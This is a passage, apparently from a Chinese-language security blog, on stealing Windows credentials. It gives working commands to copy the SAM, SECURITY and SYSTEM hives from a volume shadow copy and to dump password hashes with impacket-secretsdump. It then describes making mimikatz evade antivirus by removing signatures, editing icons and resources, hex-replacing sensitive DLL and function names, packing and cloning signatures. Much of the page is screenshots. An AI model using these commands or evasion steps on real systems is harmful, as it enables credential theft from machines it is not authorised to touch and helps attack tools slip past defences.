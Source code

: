 列出 shadows 的 list，从中并选择卷影副本卷，再复制我们需要的三个文件。

```
vssadmin list shadows
copy\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy4\Windows\system32\config\sam.
copy\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy4\Windows\system32\config\security.
copy\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy4\Windows\system32\config\system.
```

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54gcW8GhcSaWq28addf6eaQiaBpoIQwYgOCNia6k8BYZJLmGvFPnjFUwjRmHsdjObyxWh3LVLY19gkw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54gcW8GhcSaWq28addf6eaQAx2ibiaIBlPibCdktoVCYIEzwHHc21OvJk1OAVDaOtOtRVDqzFMKz2wVg/640?wx_fmt=png)

**解密恢复 HASH**

通过上面几种方法拿到 3 个文件后，我们用 impacket-secretsdump 来进行解密。

```
impacket-secretsdump -sam SAM -security SECURITY -system SYSTEM LOCAL
```

用得到的 HASH 直接去解密即可。  

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54gcW8GhcSaWq28addf6eaQICjs1Us2u4uIkOoKMCq5nJHfgYDoJKEldiaahsVSooE5g8ypQiah5tIQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54gcW8GhcSaWq28addf6eaQfG11utbvBSCnnpdQYNkU7TiajQ2xPOekJrKb3t5XyOO3ibe1lS0VQZFg/640?wx_fmt=png)

**mimikatz 免杀**

除此之外我们还可以对 MIMIKAZi 进行免杀的处理。

一般的方法是删除代码层 MIMIKATZ 特征，默认资源，如 ICO 图标，替换 bin 包内容。

混淆编译完程序 (加壳)，克隆签名等等。

替换删除敏感词 / 修改图标 ico

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54gcW8GhcSaWq28addf6eaQIsSoV0cOUHeS8OjsGVoTbtnrdjicImicGpB5BrxppfvzhLoma34Y4t0w/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54gcW8GhcSaWq28addf6eaQLNo2lRvUfKRGaZqcLmoAIYAiblwRukiaVUqq0OADhyO9lTwl7WrqZySg/640?wx_fmt=png)

修改 rc 特征。

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54gcW8GhcSaWq28addf6eaQe3K1kbSxvf8HLSrqs3FiaDBibEA118mX3xCkZtPq6OHbNBML2og9Lg5A/640?wx_fmt=png)

利用 Hex 找出一些敏感 DLL, 函数如 wdigest.dll，isbase64interceptinput 等等进行替换

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54gcW8GhcSaWq28addf6eaQ2WBUB3VB62ib5oZYe1MqkhtwGch8icz7vLLibqDmibY9dJg7PvIdgqZOjw/640?wx_fmt=png)

替换敏感的 bin 文件中方法指定成系统自带的 dll 方法

netapi32

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54gcW8GhcSaWq28addf6eaQnAuSNsScXaCn8SAYfCia6WD18xkweyNibmMrZClH0v8arBysOld0QyOg/640?wx_fmt=png)

系统中 netapi32.dll 文件

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54gcW8GhcSaWq28addf6eaQj2zcZEeGSJvsrT6DOnicJlU4VbTTFdZoaucwTDrrjOPfhwGmnmribm7Q/640?wx_fmt=png)
